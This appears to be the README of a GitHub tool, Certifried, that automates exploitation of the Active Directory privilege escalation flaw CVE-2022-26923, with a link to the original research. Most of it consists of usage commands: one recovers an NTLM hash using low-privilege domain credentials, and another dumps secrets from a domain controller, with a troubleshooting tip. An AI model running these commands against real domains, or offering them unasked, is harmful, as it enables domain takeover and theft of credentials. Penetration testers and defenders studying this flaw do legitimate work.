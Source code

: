 # Certifried 

## Why Certifried?
Certifried makes steps easier to replicate to abuse the new CVE-2022-26923. However below is the manual steps to replicate the vulnerability. Detailed article can be read [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) from the original author.

## Usage
1. Recover NTLM hash
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap
```
2. Proceed with secretsdump
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump
```
_Note: If you received an error of Name Service not found, you might wanna add target ip to /etc/hosts_
